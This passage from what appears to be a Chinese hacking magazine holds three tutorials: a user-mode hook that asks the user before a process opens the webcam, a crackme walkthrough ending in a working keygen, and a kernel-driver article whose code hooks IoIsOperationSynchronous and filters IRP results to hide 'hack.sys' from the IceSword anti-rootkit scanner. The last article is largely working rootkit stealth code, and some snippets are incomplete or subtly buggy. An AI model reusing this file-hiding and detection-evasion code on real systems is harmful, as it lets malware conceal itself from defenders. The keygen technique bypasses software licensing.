#define capSetCallbackOnWaveStream(hwnd, fpProc)
((BOOL)AVICapSM(hwnd,
WM_CAP_SET_CALLBACK_WAVESTREAM, 0,
(LPARAM)(LPVOID)(fpProc)))

#define capSetCallbackOnCapControl(hwnd, fpProc)
((BOOL)AVICapSM(hwnd,
WM_CAP_SET_CALLBACK_CAPCONTROL, 0,
(LPARAM)(LPVOID)(fpProc)))
```

而 AVICapSM 又是什么呢？它也不是函数：

```cpp
#define AVICapSM(hwnd,m,w,l) ((IsWindow(hwnd)) ?
SendMessage(hwnd,m,w,l) : 0)
```

我一开始不知道，以为是函数，结果在谷歌上搜索不到原型，心里正纳闷呢，结果 VS2010 的智能提示出来了，顿时让我大吃一惊！言归正传，我们怎么防止摄像头被偷偷开启呢？

“还用说，当然是挂钩 capCreateCaptureWindow 啦！”如果你这么想，那就错了。网上有不少人是这么想的，我一开始也是。如果真的如此，我就没有必要写这篇文章了。因为我经过分析，否决了这个方案。

为什么？马上请 64 位版 IDA 5.5 给出反汇编报告！

把 64 位的 avicap32.dll 拖入 IDA，首先查看导入表，发现它只有六个导出函数。实际上，只有四个（capXXXA 最终会调用 capXXXW）：


直接双击 capCreateCaptureWindowW，查看反汇编代码：

```asm
; HWND __stdcall
capCreateCaptureWindowW(LPCWSTR lpszWindowName,
DWORD dwStyle, int x, int y, int nWidth, int nHeight, HWND hwndParent, int nID)

public capCreateCaptureWindowW
capCreateCaptureWindowW proc near
var_A8= dword ptr -0A8h
var_A0= dword ptr -0A0h
var_98= dword ptr -98h
var_90= dword ptr -90h
var_88= qword ptr -88h
...
mov r11, rsp
mov [r11+8], rbx
mov [r11+10h], rbp
...
call cs:GetClassInfoW
...
call cs:LoadCursorW
...
call cs:RegisterClassW
loc_7FF71172702:
...
mov     [rsp+0C8h+var_78], rax
mov     rax, [rsp+0C8h+hwndParent]
mov     [rsp+0C8h+var_80], r8
mov     [rsp+0C8h+var_88], rax
mov     eax, [rsp+0C8h+nHeight]
mov     r9d, r12d        ; dwStyle
mov     [rsp+0C8h+var_90], eax
mov     eax, [rsp+0C8h+nWidth]
mov     r8, r13          ; lpWindowName
mov     [rsp+0C8h+var_98], eax
mov     rdx, r15         ; lpClassName
mov     ecx, edi         ; dwExStyle
mov     [rsp+0C8h+var_A0], esi
mov     [rsp+0C8h+var_A8], ebp
call    cs:CreateWindowExW
lea     r11, [rsp+0C8h+var_18]
mov     rbx, [r11+20h]
mov     rbp, [r11+28h]
mov     rsi, [r11+30h]
mov     rdi, [r11+38h]
mov     rsp, r11
pop     r15
pop     r13
pop     r12
retn
capCreateCaptureWindowW endp
```

```c
v1 = LoadCursorW(0, (LPCWSTR)0x7F00);
WndClass.hIcon = 0;
WndClass.lpszMenuName = 0;
WndClass.cbClsExtra = 0;
WndClass.hCursor = v1;
WndClass.lpszClassName = L"ClsCapWin";
WndClass.hbrBackground = (HBRUSH)13;
WndClass.hInstance = hInstance;
WndClass.style = 2049;
WndClass.lpfnWndProc = (WNDPROC)sub_6DB38C95;
WndClass.cbWndExtra = 20;
RegisterClassW(&WndClass);
return 1;
```

琐碎繁杂的反汇编代码让很多人心烦意乱，看不下去。其实，这段代码只是调用了四个 API。其核心部分，就是调用 CreateWindowExW 创建了一个类名为“ClsCapWin”的窗口！我一开始对这个结果也不敢相信，由于 IDA 的 F5 插件不支持把 64 位的汇编代码转化成类 C 代码，所以我又对 32 位的 avicap32.dll 进行了反汇编和反编译，结果如下（限于篇幅只留下类 C 代码部分，反汇编部分省略，请自行用 IDA 查看）：

尽管这段类 C 代码并不是由第一段 64 位汇编代码反编译出来的，但可以说，两者几乎完全一样。唯一的不同在于 32 位版的 capCreateCaptureWindowW 的实现过程调用了一个子过程，而 64 位版的 capCreateCaptureWindowW 没有调用子过程。但两者的思想是一模一样的，核心部分都是调用 CreateWindowExW 创建了一个类名为“ClsCapWin”的窗口。由于这个过程太容易被实现了，所以我们挂钩的目标不是位于 avicap32.dll 中的 capCreateCaptureWindowW，而是位于 user32.dll 里的 CreateWindowExW！在处理过程中，拦截类名为“ClsCapWin”的窗口即可。由于我之前的文章已经讲过如何在 Win64 里进行 Ring 3 Inline Hook，所以本文就不再赘述那些细节，而是直接给出处理部分的代码：

```c
HWND __stdcall capCreateCaptureWindowW(
    LPCWSTR lpszWindowName,
    DWORD dwStyle,
    int x, int y,
    int nWidth, int nHeight,
    HWND hwndParent,
    int nID)
{
    DWORD v9;
    v9 = dword_6DB40A3C != 0 ? 0x7000 : 0;
    sub_6DB31983(hInstance);
    return CreateWindowExW(
        v9,
        L"ClsCapWin",
        lpszWindowName,
        dwStyle,
        x,
        y,
        nWidth,
        nHeight,
        hwndParent,
        (HMENU)nID,
        hInstance,
        0);
}

signed int __stdcall sub_6DB31983(HINSTANCE hInstance)
{
    HCURSOR v1;
    struct tagWNDCLASSW WndClass;
    if (!GetClassInfoW(hInstance, L"ClsCapWin", &WndClass)) {
        ...
    }
}
```

```c
HWND WINAPI Fake_CreateWindowExW(
    __in      DWORD dwExStyle,
    __in_opt  LPCWSTR lpClassName,
    __in_opt  LPCWSTR lpWindowName,
    __in      DWORD dwStyle,
    __in      int x,
    __in      int y,
    __in      int nWidth,
    __in      int nHeight,
    __in_opt  HWND hWndParent,
    __in_opt  HMENU hMenu,
    __in_opt  HINSTANCE hInstance,
    __in_opt  LPVOID lpParam)
{
    HWND (WINAPI *pCreateWindowExW)(...)=
        GetOriginalFunction((ULONG_PTR)Fake_CreateWindowExW);

    if (IsBadReadPtr(lpClassName, 4) != 0)
        return pCreateWindowExW(dwExStyle, lpClassName, lpWindowName,
            dwStyle, x, y, nWidth, nHeight, hWndParent, hMenu, hInstance, lpParam);
}
```

```cpp
if (_wcsicmp(lpClassName, L"ClsCapWin") == 0)
{
    int mbw = MsgBox(0, cs(cs("进程ID为", CStr(GetCurrentProcessId())), "的程序试图开启摄像头，是否允许？"), "HIPS 警告", 4);
    if(mbw != 7)
        return pCreateWindowExW(dwExStyle, lpClassName, lpWindowName, dwStyle, x, y, nWidth, nHeight, hWndParent, hMenu, hInstance, lpParam);
    else
        return 0;
}
return pCreateWindowExW(dwExStyle, lpClassName, lpWindowName, dwStyle, x, y, nWidth, nHeight, hWndParent, hMenu, hInstance, lpParam);
```

完整的代码请在附件里查看。这里仅仅解释一下代码里的自定义函数。Cs() 是连接两个 LPSTR 字符串，MsgBox() 就是 MessageBoxA，CStr() 就是把数字转化为 LPSTR 字符串。在附件里的代码不仅能 Hook 被注入的进程，当被注入的进程创建新进程时，还会顺带把新进程里的 CreateWindowExW 给 Hook 了。还有一些狠辣的钩子保护手段，比如 Hook 了 ZwReadFile 来防止 DLL 重载绕过钩子。

代码本来不难写，可是我写了近一个小时。主要是进程有时会无故崩溃，让人十分不爽。经调试，发现老是在 _wcsicmp 处出错。按理说，_wcsicmp 是“安全”的字符串函数……我只好使用 IsBadReadPtr 来判断。有人说，直接用 if(lpClassName==NULL) 判断不行吗？经我测试，直接判断字符串是否为 NULL 还是照样会出错崩溃。由于 MessageBoxW 不怕各种有问题的参数（第二个参数直接传 0 也没事），所以我用 MessageBoxW 显示所有 lpClassName，没有发现什么异常情况……最终证明行得通。

……反正用 IsBadReadPtr 来判断后，再没有出现进程崩溃的现象。这种情况确实有点莫名其妙了，按理说，CreateWindowExW 的 lpClassName 参数是可选的，如果不用，直接填 NULL（0），莫非有些人标新立异，填了个 1 进去？

结果测试：

- 1. 开启摄像头被拦截，如图 1 所示。


图 1

- 2. 允许开启摄像头，如图 2 所示。


图 2

- 3. 禁止开启摄像头，如图 3 所示。


图 3

本文到此就要结束了，一些没有条件玩或不想玩 Win64 的朋友可能想在 Win32 下实现同样的功能。如果想在 Win32 下实现，就别搞 Ring 3 Inline Hook 了。我的建议是 Inline Hook Shadow SSDT 中的 NtUserCreateWindowEx 函数。不过这个函数的原型在各个系统好像都不相同，想搞的朋友必须先做足功课。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：汇编

关键词：破解、Crackme、注册机。

# 对某 Crackme 的分析及其注册机的写法

图/文 启意

也不知道是什么时候留下的一个 Crackme，闲来无事拿来练手，突然发现还是个蛮有趣的 Crackme，于是就记录下来过程给新手作为参考。因为本文面向新手，所以过程尽量详细、结构尽量清晰。先说一下本文用到的工具：PEiD、OD、VC6.0。

逆向分析一个软件基本流程如下：运行→查壳→调试→分析算法→写出注册码→写出注册机。本文为求思路清晰，按照上面流程依次进行分析。

运行，在确保不是病毒的情况下，试着运行下软件，从外围查看一下软件的特征，有很多很有用的信息会在调试分析的时候有很重要的作用。如这个 Crackme 的运行情况，我们先不输入 Name、Serial，结果如图 1 所示。


图 1

输入 Name：nohack，Serial：HACK，点击 TEST 发现没有状况，如图 2 所示。


由此我们得出可以通过搜索字符串“Name can not ...”的方法来进入我们分析的领空，或者断点函数 MessageBox（MessageBoxA）。目前得到的信息是：查找字符串或者 MessageBox 函数下断或许可行。

查壳，拿到一个软件首先查下有没有加壳，有壳的脱壳，有 anti 的去 anti。因为这个 Crackme 没有加壳，并且脱壳是一门比逆向更为高深的技术，三言两语也是解说不清的，在这里就不再赘述了。但是这个流程在逆向分析中是必不可少的。如果拿了软件就来调试，并且很不幸，软件加过壳，那么你的工作怕是白白浪费在了壳的空间里了。目前得到的信息是：软件无壳，可以直接调试。

调试，调试应该是逆向分析过程中最为苦力活的阶段，这个需要丰富的经验、扎实的汇编基础以及绝不放弃的毅力。进入调试，也算是进入正题了，我们先用习惯性的手法，首先查找一下字符串看有没有什么收获，如图 3 所示。


图 3

碰到了我们在运行里面记录下的字符串，点击进入如下区域：

```asm
004010FE  |. 6A 40        push 40
40                    ; /Style = MB_OK|MB_ICONASTERISK|MB_APPLMODAL
00401100  |. 68 64040000 push ...
00406064             ; error
00401105  | 68 30604000  push
00406030  ; serial can not be empty.
0040110A  | 56           push esi
0040110B  | FF15 A0504000 call dword ptr [<&USER32.MessageBoxA>> ; \MessageBoxA
```

原来是来到 MessageBoxA 处，正好是我们需要找的相关区域。在 0x0040110A 处下断，F9 运行，空 Name、空 Serial，点击 Test 果然断在此处，证明此次跟我们预想的是一致的。顺便提一下，在查找关键函数区域的时候还可以使用 bpx r 指令，查看程序调用了哪些函数，比如 MessageBoxA、GetDlgItemTextA 等函数。我们断在了 MessageBoxA 处后向上看一下相关区域，居然看到了 GetDlgItemTextA 函数，如图 4 所示。


图 4

至此我们找到了最关键的区域，接下来我们就来分析一下程序，在每个关键代码后都加了注释，通过注释来理解汇编的意思，如下：

```asm
//关键 call 的开始
004010B0  /$ 83EC1C        sub esp,1C      //分配局部变量空间
004010B3  |. 8D4424 00     lea eax,dword ptr [esp]
004010B7  |. 56            push esi
004010B8  |. 8B7424 24     mov esi,dword ptr [esp+24]
004010BC  |. 57            push edi
004010BD  |. 8B3D 9C504000 mov edi,dword ptr [<&USER32.GetDlgI>] ; USER32.GetDlgItemTextA
004010C3  |. 6A 07         push 7          ; /Count = 7
004010C5  |. 50            push eax        ; |Buffer = 0012FA60
004010C6  |. 68 F2030000   push 3F2        ; |ControlID = 3F2 (1010.)
004010CB  |. 56            push esi        ; |hWnd
004010CC  |. FFD7          call edi        ; \GetDlgItemTextA  //获取输入的 Name 前六个字符，存放到[eax]中
004010CE  |. 85C0          test eax,eax    //判断是否为空 Name，为空则弹出 MessageBoxA

004010D0  |. 75 19         jnz short
004010D2  |. 6A 40         push 40         ; /Style = MB_OK|MB_ICONASTERISK|MB_APPLMODAL
004010D4  |. 68 64604000   push 00406064   ; |error
004010D9  |. 68 4C604000   push 0040604C   ; |name can not be empty.
004010DE  |. 56            push esi        ; |hOwner
004010DF  |. FF15 A0504000 call dword ptr [<&USER32.MessageBoxA>> ; \MessageBoxA
004010E5  |. 5F            pop edi
004010E6  |. 5E            pop esi
004010E7  |. 83C4 1C       add esp,1C
004010EA  |. C3            retn
004010EB  |> 8D4C24 14     lea ecx,dword ptr [esp+14]
004010EF  |. 6A 07         push 7
004010F1  |. 51            push ecx
; 存放密码
004010F2  |. 68 F3030000   push 3F3
004010F7  |. 56            push esi
004010F8  |. FFD7          call edi        //edi 为 GetDlgItemTextA, 获取 Serial 的内容
004010FA  |. 85C0          test eax,eax    //判断 Serial 是否为空
004010FC  |. 75 19         jnz short
004010FE  |. 6A 40         push 40         ; /Style = MB_OK|MB_ICONASTERISK|MB_APPLMODAL
00401100  |. 68 64604000   push 00406064   ; |error
00401105  |. 68 30604000   push 00406030   ; |serial can not be empty.
0040110A  |. 56            push esi        ; |hOwner
0040110B  |. FF15 A0504000 call dword ptr [<&USER32.MessageBoxA>> ; \MessageBoxA
00401111  |. 5F            pop edi
00401112  |. 5E            pop esi
00401113  |. 83C4 1C       add esp,1C
00401116  |. C3            retn
//以下是关键
00401117  |> 8D7C2408      lea edi,dword ptr [esp+8]    ; 保存 Name 地址
0040111B  |. 83C9 FF       or ecx,FFFFFFFF              ; 将 ecx 置为 FFFFFFFF
0040111E  |. 33C0          xor eax,eax                  ; 清零 eax
00401120  |. F2:AE         repne scas byte ptr es:[edi] ; Name 中有无空字符
00401122  |. F7D1          not ecx                      ; ecx 取反
00401124  |. 49            dec ecx
00401125  |. 83F9 06       cmp ecx,6                    ; Name>=6, 如果小于6则失败
00401128  |. 75 23         jnz short 0040114D
0040112A  |. 8D7C2414      lea edi,dword ptr [esp+14]   ; 处理 Serial
0040112E  |. 83C9 FF       or ecx,FFFFFFFF
00401131  |. F2:AE         repne scas byte ptr es:[edi]
00401133  |. F7D1          not ecx
00401135  |. 49            dec ecx
00401136  |. 83F9 06       cmp ecx,6
00401139  |. 75 12         jnz short 0040114D
0040113B  |. 8D542414      lea edx,dword ptr [esp+14]   ; Serial
0040113E  |. 8D442408      lea eax,dword ptr [esp+8]    ; Name
00401143  |. 52            push edx
00401144  |. 50            push eax
00401145  |. E8 46000000   call 00401190
0040114A  |. 83C4 08       add esp,8
0040114D  |. 5F            pop edi
0040114E  |. 5E            pop esi
0040114F  |. 83C4 1C       add esp,1C
00401152  |. C3            retn
```

以上是判断注册码的结构，比较清晰，我们要写出注册机来必须要搞清楚算法。跟进 0x00401190 处，进入看如下的代码：

```asm
// 关键算法
00401190  mov ecx, dword ptr [esp+8]    ; 处理 Serial
00401194  push ebx
00401195  push esi
00401196  mov esi, dword ptr [esp+0C]   ; 处理 Name
0040119A  push edi
0040119B  xor edi, edi
0040119D  sub esi, ecx
0040119F  movsx eax, byte ptr [esi+ecx] ; 取输入 Name 的首字符
004011A3  imul eax, eax                 ; eax=eax*eax
004011A6  cdq
004011A7  mov ebx, 19
004011AC  idiv ebx                      ; eax/ebx，余数在 edx
004011AE  movsx eax, byte ptr [ecx]     ; 取第一个 Serial 字符
004011B1  add edx, 41                   ; eax%0x19+0x41
004011B4  cmp edx, eax                  ; 对比
004011B6  jnz short 004011C4
004011B8  inc edi
004011B9  inc ecx
004011BA  cmp edi, 6
004011BD  jle short 0040119F
004011BF  call ...
004011C4  pop edi
004011C5  pop esi
004011C6  pop ebx
004011C7  retn
```

因为在这次算法处理后又做了一次处理，跟进去后发现是成功的提示。由上面算法我们可以得出类似如下的处理：`Serial[i] = Name[i] * Name[i] % 0x19 + 0x41`。由此我们将这个 Crackme 的注册流程以及算法部分彻底弄清楚了。

写出注册码，由上一段落分析出的算法：`Serial[i] = Name[i] * Name[i] % 0x19 + 0x41` 推算出一组注册码，Name：`AAAAAA`；Serial：`AAAAAA`，如图 5 所示。


图 5

写出注册机，因为算法分析出来了，所以就比较容易写出注册机了，贴如下的代码：

```c
#include <string.h>
#include <stdio.h>
#define MAX 100

void pass(char *Name, char *Serial)
{
    int a,b,sum;
    int i=0;

    // for 循环内是逆向算法的核心
    for(i=0;i<6;i++)
    {
        sum = Name[i]*Name[i];
        a = sum/25;
        b = sum%25;
        Serial[i] = b+0x41;
    }
    printf("Serial %s\n", Serial);
}

int main()
{
    char Name[MAX]="\0";
    char Serial[MAX]="\0";
    while(strlen(Name) < 6)
    {
        printf("At least 6 bytes\n");
        printf("Name:");
        scanf("%s", Name);
    }
    pass(Name,Serial);
    scanf("%s",Name);
    return 0;
}
```

注册机写出来了，进行一下测试看看是不是可以，如图 6 所示。


图 6

## 总结

至此我们的本次 Crackme 逆向之旅就算是完成了，对于陌生的汇编指令一定要多加掌握，做一个 Cracker 是要付出很大努力的。当看到一个分析清楚的代码时也许觉得很简单，可是在一片迷茫，甚至布满了迷惑人的指令的时候，那不断尝试的过程的辛苦是很难被人理解的。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

---

前置知识：驱动

关键词：IBP 隐藏文件，冰刃

# 过滤 IRP 突破冰刃文件检测

文 Zyrvsfei


本文介绍在文件系统层上绕过冰刃的文件检测功能，而不是在磁盘系统层。说到 Windows 的文件，不得不谈文件的隐藏。对于文件隐藏技术，上层一点就是 HOOK 系统函数实现文件的隐藏，在 R3 和 R0 下都可以 HOOK ZwQueryDirectoryFile 来实现文件的隐藏，但是这个函数太接近应用层，ARK 工具完全可以绕过这个函数自己发送 IRP 实现文件的枚举。稍微底层一点的，可以替换 FSD 的分发例程，或者 HOOK FSD 的分发例程。但是这些都逃不过冰刃的文件检测。

那么冰刃的文件检测是怎么样的呢？其实冰刃是采用 Raw FSD I/O 来枚举文件和目录的，就是自己构造 IRP（MajorFunction=IRP_MJ_DIRECTORY_CONTROL，MinorFunction=IRP_MN_QUERY_DIRECTORY），然后调用 FSD 的分发例程。在这里有几点要注意：

- 1. 冰刃在填充 IRP 的时候，IRP 栈单元的 Flags 设置了 SL_RETURN_SINGLE_ENTRY，所以文件系统每次只会返回一条 FILE_BOTH_DIR_INFORMATION 结构的记录，而不是全部。当 IoStatus.Status==STATUS_NO_MORE_FILES 时候枚举结束。
- 2. 冰刃在下发 IRP 的时候，并不是调用 IoCallDriver 来实现 IRP 的下发，而是直接获取 FSD 真实的分发例程，调用过去后，会不停地恢复 FSD 分发例程的前十几个字节，所以大部分在文件系统层的方法都无法绕过冰刃，如 FSD 分发例程替换、INLINE HOOK 分发例程等等都是没用的。

难道真的没有办法绕过冰刃的检测吗？当然不是，否则也不会写此文。方法是在 IRP 处理前设置完成例程，当 IRP 完成后在完成例程中处理返回的数据。现在面临如下两个问题：

- 1. 如何捕获冰刃下发的 IRP？
- 2. 如何为捕获的 IRP 设置完成例程？

由于冰刃是直接 call 完成例程的，但不停地恢复完成例程的前十几个字节，所以我们不能直接 HOOK 完成例程，而是 HOOK 完成例程中调用的系统函数。因此，应该先获得真实的完成例程。可是通过 ntfs.sys 的 DriverObject 的 MajorFunction 域获取是不行的，因为该处的数据可能被更改。而我们却可以 MAP 磁盘文件 ntfs.sys，分析它。通过 IDA 分析 ntfs.sys 的 DriverEntry 函数：

```asm
INIT:0009546D                 push    eax            ; DeviceName
INIT:0009546E                 push    ebx            ; DeviceExtensionSize
INIT:0009546F                 push    esi            ; DriverObject
INIT:00095470                 call    ds:IoCreateDevice
INIT:00095476                 cmp     eax, ebx
INIT:00095478                 jl      loc_95A79
INIT:0009547E                 mov     dword ptr [esi+7Ch], offset loc_89CE9
INIT:00095485                 mov     dword ptr [esi+68h], offset loc_381BD
INIT:0009548C                 mov     dword ptr [esi+50h], offset loc_13ABB
INIT:00095493                 mov     dword ptr [esi+38h], offset loc_35E01
INIT:0009549A                 mov     dword ptr [esi+40h], offset loc_352EA
INIT:000954A1                 mov     dword ptr [esi+44h], offset loc_12F2F
INIT:000954A8                 mov     dword ptr [esi+48h], offset loc_11B4B
INIT:000954AF                 mov     dword ptr [esi+5Ch], offset loc_500E5
INIT:000954B6                 mov     dword ptr [esi+6Ch], offset loc_3A958
INIT:000954BD                 mov     dword ptr [esi+80h], offset loc_35CB8
INIT:000954C7                 mov     dword ptr [esi+78h], offset off_247F2
INIT:000954CE                 mov     dword ptr [esi+0A4h], offset loc_52A0E
INIT:000954D8                 mov     dword ptr [esi+28h], offset dword_2F9A0
```

发现 DriverEntry 函数对于 `IRP_MJ_DIRECTORY_CONTROL` 分发例程（NtfsFsdDirectoryControl）赋值的指令是 `mov dword ptr [esi+68h], offset loc_381BD`，特征码是：`c74668`。具体获取 NtfsFsdDirectoryControl 的代码如下：

```c
int GetRvaofFun()
{
    HANDLE hfile,hmap;
    PIMAGE_DOS_HEADER lpmemory;
    PIMAGE_NT_HEADERS ntheader;
    ULONG imagebase,driverentry,FsdRoutine;
    ULONG sectionnums,i;
    PIMAGE_SECTION_HEADER sectionheader;

    //这里是打开文件，并建立文件内存映像，在这里省略。
    ......
    ......
    ......

    if(lpmemory==0)
    {
        return 0;
    }

    // 检测 DOS 头和 NT 头，确保是有效的 PE 文件
    if(lpmemory->e_magic!=IMAGE_DOS_SIGNATURE)
    {
        return 0;
    }

    ntheader=(PIMAGE_NT_HEADERS)((ULONG)lpmemory+lpmemory->e_lfanew);
    if(ntheader->Signature!=IMAGE_NT_SIGNATURE)
    {
        return 0;
    }

    imagebase=ntheader->OptionalHeader.ImageBase;
    // 加载的基址

    driverentry=ntheader->OptionalHeader.AddressOfEntryPoint;
    // driverentry 函数的地址，是一个 RVA。
    // 下面的代码将 driverentry 这个 RVA 转换成 RAW 文件偏移

    sectionnums=ntheader->FileHeader.NumberOfSections;
    sectionheader=(PIMAGE_SECTION_HEADER)((ULONG)ntheader+sizeof(IMAGE_NT_HEADERS));

    for(i=0;i<sectionnums;i++)
    {
        if((ULONG)driverentry>=sectionheader->VirtualAddress &&
           (ULONG)driverentry<=(sectionheader->VirtualAddress+sectionheader->SizeOfRawData))
        {
            driverentry=((ULONG)driverentry-sectionheader->VirtualAddress+
                         sectionheader->PointerToRawData+(ULONG)lpmemory);
        }
        sectionheader++;
    }

    // 通过特征码搜索 NtfsFsdDirectoryControl 函数相对于基址的偏移
    for(i=(ULONG)driverentry;i<(ULONG)driverentry+1024;i++)
    {
        if(*(PWORD)i==0x46c7 && *(PBYTE)(i+2)==0x68)
        {
            return (int)(FsdRoutine=*(PULONG)(i+3)-(ULONG)imagebase);
        }
    }

    return 0;
}
```

现在我们得到了 NtfsFsdDirectoryControl 函数地址的偏移，然后加上 ntfs.sys 加载的基址，也就可以得到 NtfsFsdDirectoryControl 在系统中的真实地址。NTFS.SYS 在系统的基址可以通过 ZwQuerySystemInformation 得到。

这里不再多说。

用 IDA 看看 `NtfsFsdDirectoryControl` 函数的代码：

```c
PAGE:000381D1            call ds:KeEnterCriticalRegion
PAGE:000381D7            push 1
PAGE:000381D9            push 1
PAGE:000381DB            lea eax,[ebp-4Ch]
PAGE:000381DE            push eax
PAGE:000381DF            call sub_10498
PAGE:000381E4            mov esi,eax
...
PAGE:000381F9            call ds:IoIsOperationSynchronous
PAGE:000381FF            test al,al
```

可以看到 `NtfsFsdDirectoryControl` 调用了 `IoIsOperationSynchronous`，这个函数是个导出函数，声明如下：

```c
#if (NTDDI_VERSION >= NTDDI_WIN2K)
NTKERNELAPI
BOOLEAN
IoIsOperationSynchronous(
    __in PIRP Irp
);
#endif
```

其有个 `PIRP` 参数，HOOK 了这个函数，我们就可以在该 IRP 请求完成前设置 IRP 的完成例程。在设置 IRP 完成例程时要注意：当系统完成该 IRP 请求后，会调用 `IofCompleteRequest`，该函数会改变当前 IRP 栈单元的一些值，并设置当前栈单元为上个栈单元。因此在完成例程中若要用到该栈单元的原始数据，需要提前保存当前 IRP 栈单元数据，并将 `Context` 域设置为保存地址。`IoIsOperationSynchronous` 的代码就省略了，参考《黑防》以前的文章。调用 `IoIsOperationSynchronous` 后，会跳到我们的函数 `MyHook`，在 `MyHook` 中，利用栈回溯检测其调用源是否为 `NtfsFsdDirectoryControl`，并且检测 `MajorFunction` 和 `MinorFunction` 是否符合要求，具体代码如下：

```c
PIO_STACK_LOCATION irpSp;
PVOID address1;
PIO_STACK_LOCATION oldcontxt;
__asm {
  // 取得其调用源，并检测是否为 NtfsFsdDirectoryControl 函数
  mov eax,[ebp+4]
  mov [address1],eax
}
if ((ULONG)((ULONG)address1-(ULONG)pquerydirectory)<120) {
  irpSp=IoGetCurrentIrpStackLocation(irp);
  if(irpSp) {
    if(irpSp->MajorFunction==IRP_MJ_DIRECTORY_CONTROL &&
       irpSp->MinorFunction==IRP_MN_QUERY_DIRECTORY) {
      oldcontxt=ExAllocatePoolWithTag(NonPagedPool,sizeof(IO_STACK_LOCATION),'hack');
      RtlCopyMemory(oldcontxt,irpSp,sizeof(IO_STACK_LOCATION));
      irpSp->CompletionRoutine=MyCompletionRoutine;
      irpSp->Context=oldcontxt;
      irpSp->Control=0;
      irpSp->Control=SL_INVOKE_ON_CANCEL;
      irpSp->Control=SL_INVOKE_ON_ERROR;
      irpSp->Control=SL_INVOKE_ON_SUCCESS;
    }
  }
}
__asm {
  // 跳回 IoIsOperationSynchronous 函数继续执行
  mov esp,ebp
  mov eax,pioopsyn
  add eax,5
  jmp eax
}
```

在设置完成例程时候，不能用 `IoSetCompletionRoutine` 这个 DDK 定义的宏，该宏设置的是下层栈单元的完成例程，所以要自己手动赋值设置完成例程。当系统完成该 IRP 请求，会调用 `IofCompleteRequest` 函数，该函数会执行我们的完成例程。

接着看看 `MyCompletionRoutine` 完成例程的函数：

可以看到多次调用 `hidesingle` 这个函数，`hidesingle` 函数的主要功能是过滤数据。如发现目标文件，则处理数据实现隐藏。由于是在内核中操作内存，所以这个函数中要检测 buffer 是否越界，否则可能会蓝屏：

```c
NTSTATUS MyCompletionRoutine(PDEVICE_OBJECT devobj, PIRP irp, PVOID context)
{
    PVOID buffer, prebuffer;
    NTSTATUS status = irp->IoStatus.Status;
    // IRP 成功完成，继续执行
    if (NT_SUCCESS(irp->IoStatus.Status) && (irp->IoStatus.Information))
    {
        /* 系统返回的数据在 irp->UserBuffer 指向的内存中，
           或者 irp->MdlAddress 描述的内存中，GetBuffer
           可以动态获取数据地址 */
        prebuffer = buffer = GetBuffer(irp);

        /* 如果调用者为 Flags 设置了 SL_RETURN_SINGLE_ENTRY
           则本系统每次只会返回一个 FILE_BOTH_DIR_INFORMATION */
        if ((((PIO_STACK_LOCATION)context)->Flags & SL_RETURN_SINGLE_ENTRY) == SL_RETURN_SINGLE_ENTRY)
        {
            if (-1 == hidesingle(irp, buffer, 0, TRUE, context))
                goto __exit;
        }
        else
        {
            /* 否则返回当前目录全部数据 */
            if (hidesingle(irp, buffer, prebuffer, FALSE, context))
            {
                while (*(PULONG)buffer)
                {
                    prebuffer = buffer;
                    buffer = (PCHAR)buffer + *(PULONG)buffer;
                    if (hidesingle(irp, buffer, prebuffer, FALSE, context))
                        break;
                }
            }
        }
    }
__exit:
    // 如果老的 IRP 栈单元已经设置完成例程，则调用
    if (((PIO_STACK_LOCATION)context)->CompletionRoutine)
    {
        status = ((PIO_STACK_LOCATION)context)->CompletionRoutine(
            ((PIO_STACK_LOCATION)context)->DeviceObject,
            irp,
            ((PIO_STACK_LOCATION)context)->Context);
    }
    ExFreePoolWithTag(context, 'hack');
    if (irp->PendingReturned)
        IoMarkIrpPending(irp);
    return status;
}
```

```c
typedef struct _FILE_BOTH_DIR_INFORMATION {
    ULONG NextEntryOffset;
    ULONG FileIndex;
    LARGE_INTEGER CreationTime;
    LARGE_INTEGER LastAccessTime;
    LARGE_INTEGER LastWriteTime;
    LARGE_INTEGER ChangeTime;
    LARGE_INTEGER EndOfFile;
    LARGE_INTEGER AllocationSize;
    ULONG FileAttributes;
    ULONG FileNameLength;
    ULONG EaSize;
    CCHAR ShortNameLength;
    WCHAR ShortName[12];
    WCHAR FileName[1];
} FILE_BOTH_DIR_INFORMATION, *PFILE_BOTH_DIR_INFORMATION;

#define HIDEFILE L"hack.sys"
int hidesingle(PIRP irp, PVOID buffer, PVOID prebuffer, BOOLEAN bretsingl, PIO_STACK_LOCATION oldirpsp)
{
    /* 本函数首先检测缓冲区，若越界则直接返回 TRUE。
       若检测到隐藏文件：
       - bretsingle 为 TRUE（SL_RETURN_SINGLE_ENTRY）则清零缓冲区并返回 -1；
       - bretsingle 为 FALSE 则将对应 FILE_BOTH_DIR_INFORMATION 断链并返回 TRUE；
       如果没有检测到隐藏文件，则返回 FALSE。 */

    PWCHAR p;
    PULONG len;

    if (((ULONG)buffer + sizeof(FILE_BOTH_DIR_INFORMATION) - (ULONG)irp->UserBuffer) >= irp->IoStatus.Information)
        return TRUE;

    p = ((PFILE_BOTH_DIR_INFORMATION)buffer)->FileName;
    len = &((PFILE_BOTH_DIR_INFORMATION)buffer)->FileNameLength;

    if (p)
    {
        if (*len == wcslen(HIDEFILE) * 2)
        {
            if (!_wcsnicmp(p, HIDEFILE, wcslen(HIDEFILE)))
            {
                if (!bretsingl)
                {
                    if (*(PULONG)buffer)
                    {
                        if (prebuffer)
                        {
                            if (buffer != prebuffer)
                                *(PULONG)prebuffer += *(PULONG)buffer;
                        }
                    }
                    else
                    {
                        RtlCopyMemory(buffer, (PCHAR)buffer + *(PULONG)buffer,
                                      irp->IoStatus.Information - *(PULONG)buffer);
                    }
                    return TRUE;
                }
                else
                {
                    RtlZeroMemory(buffer, irp->IoStatus.Information);
                    irp->IoStatus.Information = 0;
                    irp->IoStatus.Status = STATUS_NO_MORE_FILES;
                    return -1;
                }
            }
        }
    }
    return FALSE;
}
```

## 总结

在知道原理后，编码的时候还是发现了不少问题，提出来引起大家注意。

